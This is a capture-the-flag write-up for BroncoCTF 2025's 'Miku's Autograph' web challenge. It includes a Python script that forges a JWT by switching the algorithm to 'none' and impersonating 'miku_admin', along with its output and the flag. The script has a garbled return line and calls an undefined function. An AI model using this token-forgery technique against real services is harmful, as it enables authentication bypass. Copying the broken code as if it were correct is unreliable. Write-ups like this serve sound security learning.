  <title>broncocte2025---Miku's Autograph Writeup </title>
 

<!DOCTYPE html>
<html>
 
<body>
    <h1>broncocte2025---Miku's Autograph Writeup </h1>

    <h2>Challenge Description</h2>
    <p>  I am so proud of the fact that I have Miku's autograph. Ha! You don't!

<a href="https://miku.web.broncoctf.xyz/">https://miku.web.broncoctf.xyz</a>
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol> 
        <li> 
we open https://miku.web.broncoctf.xyz/ via burp suit or script see that have /get_token sub domin that get jwt token 
so i ajwt token and becaouse two use so set user to miko admin to login in token.dev and get logging in cookies or below code is for jwt attack
</pre>
#! /usr/bin/env python3
import json
import base64
import requests
import sys

# Default values (Can be overridden via command-line arguments)
HOST = "https://miku.web.broncoctf.xyz/"  # Replace with actual host
MANUAL_TOKEN = None
ALG = "none"
SUB = "miku_admin"

#command line jwt attack  $python writeup3.py   $python writeup3.py https://miku.web.broncoctf.xyz/ eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAibWlrdV9hZG1pbiIsICJleHAiOiAxNzM5ODYyOTkzfQ.sSV2yKwJxqelFbw7juf-hBODZNdjhXU5mmQgPPDpWxA
def parse_args():
    """Parses command-line arguments like 'alg=none sub=admin token=...'."""
    global HOST, ALG, SUB, MANUAL_TOKEN

    for arg in sys.argv[1:]:
        if "=" in arg:
            key, value = arg.split("=", 1)
            key, value = key.strip(), value.strip()

            if key == "host":
                HOST = value
            elif key == "alg":
                ALG = value
            elif key == "sub":
                SUB = value
            elif key == "token":
                MANUAL_TOKEN = value  # If token is provided, use it directly

def tweak_token(token: str) -> str:
    try:
        header, payload, signature = token.split(".")
        base64_decoded_header = json.loads(base64.b64decode(header + "==").decode())
        base64_decoded_payload = json.loads(base64.b64decode(payload + "==").decode())

        # Modify the token dynamically
        base64_decoded_header["alg"] = ALG
        base64_decoded_payload["sub"] = SUB

        header = base64.b64encode(json.dumps(base64_decoded_header).encode()).decode().replace("=", "")
        payload = base64.b64encode(json.dumps(base64_decoded_payload).encode()).decode().replace("=", "")
        cookie = f"{header}.{payload}.{signature}"

        msg_info(f"Tweaked Cookie is: {cookie}")
        return cookiehttps://miku.web.broncoctf.xyz
    except Exception as e:
        msg_info(f"Error tweaking token: {e}")
        return None

def get_token():
    if MANUAL_TOKEN:
        msg_info("Using manually provided token.")
        return MANUAL_TOKEN

    try:
        response = requests.get(f"{HOST}/get_token")
        if response.status_code != 200:
            msg_info(f"Failed to get token: {response.text}")
            return None

        token = json.loads(response.text).get("your_token")
        if not token:
            msg_info("No token found in response.")
            return None

        return token
    except Exception as e:
        msg_info(f"Error getting token: {e}")
        return None

def solve():
    parse_args()  # Process command-line arguments

    msg_info(f"Using host: {HOST}")
    msg_info(f"Using alg: {ALG}")
    msg_info(f"Using sub: {SUB}")

    msg_info("Retrieving the token...")
    token = get_token()
    
    if not token:
        msg_info("No valid token retrieved. Exiting.")
        return

    cookie = tweak_token(token)
    if not cookie:
        msg_info("Token tweaking failed. Exiting.")
        return

    data = {"token": cookie}

    try:
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        response = requests.post(f"{HOST}/login", data=data, headers=headers)

        msg_info(f"Status Code: {response.status_code}")
        msg_info(f"Response Headers: {response.headers}")
        msg_info(f"Response Body: {response.text}")
    except Exception as e:
        msg_info(f"Error during login: {e}")

if __name__ == "__main__":
    
    solve()
</pre>
after running code will get token with below result
<code>
INFO] Retrieving the token...
[INFO] Tweaked Cookie is: eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAibWlrdV9hZG1pbiIsICJleHAiOiAxNzM5ODE3OTk3fQ.y8LSP8HaDWRVTEh6epW6Sb1cFiaa2N1XsAKWkd0g31A
[INFO] Status Code: 200
[INFO] Response Headers: {'Server': 'Werkzeug/3.1.3 Python/3.13.2', 'Date': 'Mon, 17 Feb 2025 18:36:38 GMT', 'Content-Type': 'text/html; charset=utf-8', 'Content-Length': '88', 'Via': '1.1 google', 'Alt-Svc': 'h3=":443"; ma=2592000,h3-29=":443"; ma=2592000'}
[INFO] Response Body: <h2>Welcome, Miku Admin! Here's your flag: bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}</h2>

</code>
that have flag
</li>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">bronco{miku_miku_beaaaaaaaaaaaaaaaaaam!}
</p>

    <h2>Conclusion</h2>
    <p>this is a medium chanllenge for jwt attack and web exploitation</p>

</body>
</html>
